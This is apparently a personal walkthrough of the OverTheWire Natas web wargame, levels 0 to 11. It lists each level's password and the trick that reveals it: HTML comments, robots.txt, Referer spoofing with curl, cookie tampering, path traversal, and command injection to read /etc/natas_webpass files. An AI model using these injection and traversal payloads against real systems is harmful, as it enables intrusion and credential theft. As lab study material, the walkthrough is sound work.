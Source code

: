 Natas0
view source > html comment
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->

natas1
right click disabled > use menu, or disable javascript
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->

natas2
image at files/pixel.png
go to files/
users.txt
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH

natas3
<!-- No more information leaks!! Not even Google will find it this time... -->
User-agent: *
Disallow: /s3cr3t/
/secret/users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

natas4
~/dotfiles (master) :) curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ natas4.natas.labs.overthewire.org --referer http://natas5.natas.labs.overthewire.org/
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

natas5
cookies > loggedin = 0
loggedin > 1
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

natas6
view source button
visit /includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

natas7
home link
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

natas8
view source link
~/dotfiles (master) :) echo 3d3d516343746d4d6d6c315669563362 | xxd -r -p | rev | base64 -d
oubWYf2kBq

Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

natas9
; cat /etc/natas_webpass/natas10
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

natas10
[a-Z] /etc/natas_webpass/natas11 
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK


natas11
data cookie > ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D
